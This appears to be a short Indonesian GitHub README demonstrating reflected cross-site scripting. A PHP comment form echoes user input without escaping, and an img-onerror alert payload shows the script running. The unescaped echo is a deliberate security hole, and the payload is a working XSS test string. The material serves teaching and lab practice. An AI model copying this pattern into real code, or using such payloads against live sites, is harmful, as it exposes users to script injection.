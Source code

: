 <h1>KODE EXPERIMEN XSS</h1>

<?php
error_reporting(E_ALL);
ini_set('display_errors', 1);

$komentar = '';
if (isset($_POST['komentar'])) {
    $komentar = $_POST['komentar'];
}
?>

<!DOCTYPE html>
<html lang="id">
<head>
    <meta charset="UTF-8">
    <title>Form Komentar - Uji Coba XSS</title>
</head>
<body>
    <h1>Form Komentar</h1>
    <form method="POST" action="">
        <input type="text" name="komentar" placeholder="Tulis komentar..." value="">
        <button type="submit">Kirim</button>
    </form>

    <h2>Hasil Komentar:</h2>
    <div>
        <?php
        echo $komentar;
        ?>
    </div>
</body>
</html>

<h1>MASUKAN KODE PAYLOAD</h1>

<img src=”x” onerror=”alert(‘XSS Berhasil!’)”>

<h1>HASIL</h1>

![Screenshot 2025-04-28 001747](https://github.com/user-attachments/assets/3156becf-db95-4fb5-9474-f01f5913212a)


